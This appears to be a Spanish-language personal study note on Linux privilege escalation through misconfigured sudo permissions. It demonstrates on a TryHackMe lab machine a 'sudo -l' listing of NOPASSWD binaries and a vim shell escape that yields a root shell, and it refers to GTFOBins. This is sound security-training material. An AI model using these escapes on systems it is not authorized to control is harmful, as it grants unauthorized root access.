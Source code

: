 El comando Sudo es una maravilla, nos permite a los usuarios normales ejecutar comandos como root, cambiarnos rapidamente de usuarios a root, claro que todo esto con la contraseña, porque si no seria muy inseguro... ¿Verdad? ¿VERDAD? bueno pues, lamento decir que este comando no es completamente seguro, aunque cabe decir que la culpa suele ser mas de lo susuarios que otorgan permisos que no deberian, a que me refiero con esto, bueno pues primero hay que entender que hace la opcion:

```bash
sudo -l
```

Esta opcion lo que hace es mostrar los comandos que un usuario normal puede ejecutar como root sin necesidad de una contraseña, o solo usando la contraseña del propio usuario, usualmente la vulnerabilidad se encuentra en scripts o aplicaciones personalizadas a las alguno usuarios que no deberian pueden ejecutarlas como root y esto noes puede ayudar a escapar de nuestra shell, ejecutar una reverse shell como root, etc, el punto es que no siempre es asi, muchas veces hay apicaciones predeterminadas de Unix que están definidas con esta configuración de sudo, y para explotar esta vulnerabilidad en casos como estos podemos hacer uso de la pagina GTOFBins ubicada en la seccion de paginas interesantes: [Privilegie Scalation - Linux](/Hacking/Paginas%20de%20interés/Privilegie%20Scalation%20-%20Linux)

Ahora voy a usar de ejemplo una maquina altamente vulnerable de THM (Try Hack Me) llamada Linux PrevEsc Arena


```bash
TCM@debian:~$ sudo -l                                                                   Matching Defaults entries for TCM on this host:                                         env_reset, env_keep+=LD_PRELOAD                                                                                                                                                 User TCM may run the following commands on this host:                                   (root) NOPASSWD: /usr/sbin/iftop                                                        (root) NOPASSWD: /usr/bin/find                                                          (root) NOPASSWD: /usr/bin/nano                                                          (root) NOPASSWD: /usr/bin/vim                                                           (root) NOPASSWD: /usr/bin/man                                                           (root) NOPASSWD: /usr/bin/awk                                                           (root) NOPASSWD: /usr/bin/less                                                          (root) NOPASSWD: /usr/bin/ftp                                                           (root) NOPASSWD: /usr/bin/nmap                                                          
(root) NOPASSWD: /usr/sbin/apache2                                                      (root) NOPASSWD: /bin/more  
```

Como se puede ver aqui, esta maquina es altamente vulnerable por todos los posibles comandos que se puede ejecutar con permisos sudo, y aqui podemos usar varias de las funciones/comandos que nos otorga GTOFBins:


![[Pasted image 20240815212450.png]]

Y a continuacion el uso en la maquina y su resultado (en mi caso pongo /bin/bash en vez de /bin/sh porque la verdad prefiero mucho mas una bash que una sh):

```bash
TCM@debian:~$ sudo vim -c ':!/bin/bash'                                                                                                                                        root@debian:/home/user# whoami
root                                                                                    root@debian:/home/user#
```

Como pueden ver pudimos realizar una escalada de privilegios exitosamente, y esto lo podemos repetir con la mayoria de los comandos que vimos con sudo -l

¿La mayoria?, si, la mayoria, porque los comandos que no se pueden con el metodo visto aqui, como puede ser apache2 o wget, lo veremos en [Explotando visualizacion de archivos privilegiados con sudo](Explotando%20visualizacion%20de%20archivos%20privilegiados%20con%20sudo.md)
